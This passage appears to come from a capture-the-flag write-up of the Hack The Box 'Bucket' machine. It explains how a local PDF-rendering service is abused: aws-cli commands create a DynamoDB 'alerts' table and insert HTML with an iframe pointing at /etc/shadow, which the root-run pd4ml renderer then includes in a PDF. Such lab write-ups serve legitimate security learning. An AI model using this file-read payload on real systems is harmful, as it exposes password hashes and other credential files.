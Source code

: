 Let's state simple and obvious stuff first.  
In order to access the code from above we should send a POST request with an 'action' parameter and 'get_alerts' as the value.  
The server will connect to the local DynamoDB instance and run a query that takes data out of the 'alerts' table.  
It looks for the entry that has 'Ransomware' as its title (one of the attributes is called title).  
Then, it reads the 'data' attribute of that entry (or entries, if there are multiple ones) and puts their content in a HTML file.  
After that, the HTML files are passed to [pd4ml_demo.jar](https://pd4ml.com/html-to-pdf-command-line-tool.htm), a Java program that turns html documents into pdf ones.  

So, in order to make that code do something, we should do the following:
- Create a table named 'alerts'. It should have two attributes: title and data  
(both of them are strings)
- Insert a new entry that has 'Ransomware' as its title and some HTML as the data
- Make a POST request to the app (on localhost:8000, from the target machine)

### Making a PoC

Based on the documentation found [here](https://docs.aws.amazon.com/cli/latest/reference/dynamodb/create-table.html) and some examples from [this page](https://github.com/awsdocs/aws-cli-user-guide/blob/master/doc_source/cli-services-dynamodb.md) I wrote a bash script (AKA 2 commands) that create the new table and insert the 'Ransomware' entry. 

At first I put some text and checked if it is rendered inside the pdf file that I could copy using scp.  
But for this I had to either get a shell or exfiltrate data. I could not quickly find an exploit for pd4ml that would result in a shell.  
However, after reading [this](https://stackoverflow.com/questions/8988855/include-another-html-file-in-a-html-file) I found some methods that work for adding the content of a text file to a pdf document.  
Because this application ran as root I decided to try and obtain /etc/shadow.  

{% highlight bash %}
aws dynamodb --endpoint-url http://s3.bucket.htb create-table \
    --table-name alerts \
    --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S \
    --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE \
    --provisioned-throughput ReadCapacityUnits=1,WriteCapacityUnits=1

aws dynamodb --endpoint-url http://s3.bucket.htb put-item \
    --table-name alerts \
    --item '{
        "title" : {"S": "Ransomware"},
        "data" : {"S": "<html><body><iframe src=\"/etc/shadow\"></iframe></body></html>"}
        }' \
        --return-consumed-capacity TOTAL
{% endhighlight %}

After running this and then accessing the service I got a pdf file with the expected contents.

![PoC for the attack]({{site.baseurl}}/assets/img/HTB/bucket/etc_shadow.png){: .center-image}

